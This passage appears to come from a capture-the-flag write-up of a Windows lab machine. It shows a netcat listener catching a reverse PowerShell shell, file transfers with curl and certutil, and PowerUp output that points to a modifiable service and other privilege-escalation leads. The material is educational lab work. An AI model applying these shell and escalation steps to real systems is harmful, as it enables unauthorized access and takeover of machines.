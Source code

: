 Now I just setup a netcat listener and run the script.

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.180 49686 received!
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
C:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

So we received a shell. We can find the user flag inside the `\Users\Public\` directory. And now we move on to escalating our privileges. 

So my knowledge of windows priv esc is very limited. I start looking inside all the user directories but didn't have the permissions. Then I transfer and run winPEAS. Nothing stands out yet ( to my amatuer eyes that is ). Finally someone [recommended this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/a6475a19d9333006df3fee5aa377b586087d5fab/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md).

Looks like I will need to PowerUP. PowerUp is a tool to find weak services and the catch is that it is a powershell script. I have never used powershell before in my life. Till now I have relied on the good ol command prompt. Luckily Using th script wasn't that hard.

Oh Yeah I forgot something important to tell you. Let me tell you about my mistake first. So I transfered the script to the windows box using curl and nothing happened when I ran it. So I googled about it and [found this](https://www.itprotoday.com/powershell/how-run-powershell-script).
Apparently powershell is "secure" by default and has a signature mechanism in place to protect the system from running untrusted scripts. But when I transfered the script using certutil to the box the script ran normally. I still don't know the details but I just wanted to state an observation. 

So After I transfer the script and run it we see the output.

```
PS C:\windows\temp> . .\PowerUp.ps1
. .\PowerUp.ps1
PS C:\windows\temp> Invoke-AllChecks
Invoke-AllChecks

Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1044
ProcessId   : 4352
Name        : 4352
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```
